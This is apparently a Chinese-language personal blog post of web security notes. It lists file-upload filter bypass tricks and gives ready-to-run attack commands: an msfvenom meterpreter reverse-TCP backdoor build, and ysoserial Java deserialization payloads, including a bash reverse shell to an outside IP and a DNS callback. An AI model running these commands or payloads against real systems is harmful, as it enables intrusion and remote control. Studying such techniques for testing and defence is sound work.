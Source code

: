 ```yaml
---
layout: post
author: ᴢʜᴀɴɢ
title: "Web安全"
date: 2023-05-18
music-id: 
permalink: /archives/2023-05-18/1
description: "Web"
---
```


# Web安全笔记
## 上传文件
1. MIME-Type验证
2. 改后缀名php1、php2、phtml、php5
3. 先上传.htaccess 后上传图片
4. 先上传.user.ini 后上传图片
5. 大小写绕过
6. 后缀.php加空格绕过 or 加点绕过 or 加::$DATA绕过
7. 后缀.php加点号绕过拼接并绕过前面的两次过滤 x.php. .
8. 双写绕过 x.pphphp
9. 0x00截断 %00
10. 图片马+文件包含利用漏洞   include $file;     include.php?file=x.jpg即可shell
11. 图片马加二次渲染 找到二次渲染后不变的地方插入shell
12. 条件竞争 适合先上传再判断漏洞
13. 带有保存名称 可用%00解码后POST 或者 黑名单验证 upload-19.php/. 是文件夹形式/.
14. 数组绕过

## Msfvenom主要用来生成带后门的软件
### Java反序列化工具ysoserial
~~~
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.150.139 LPORT=5577 -b "\x00" -i 10 -f exe -o /var/www/html/test.exe


java -jar ysoserial.jar URLDNS "http://d5z0tw.ceye.io"  > h.bin
java -jar ysoserial.jar ysoserial.exploit.JRMPListener 123 ROME "bash -i >& /dev/tcp/110.120.119.110/80 0>&1" > h.bin

java -jar ysoserial.jar JRMPClient ROME "110.120.119.110:80" > h.bin
~~~